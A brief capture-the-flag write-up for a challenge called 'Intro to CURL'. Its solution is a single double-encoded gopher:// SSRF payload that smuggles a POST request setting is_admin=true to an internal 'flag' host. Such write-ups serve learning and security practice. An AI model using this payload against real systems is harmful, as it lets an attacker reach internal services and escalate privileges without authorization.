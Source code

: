 # Intro to CURL
Description:
```
Gaada sih cuman curl aja.
```
# Solve
SSRF with Gopher.
```
gopher://flag:80/_POST%2520/%2520HTTP/1.1%250D%250AHost:%2520flags%250D%250AContent-Length:%252013%250D%250AContent-Type:%2520application/x-www-form-urlencoded%250D%250A%250D%250Ais_admin=true
```
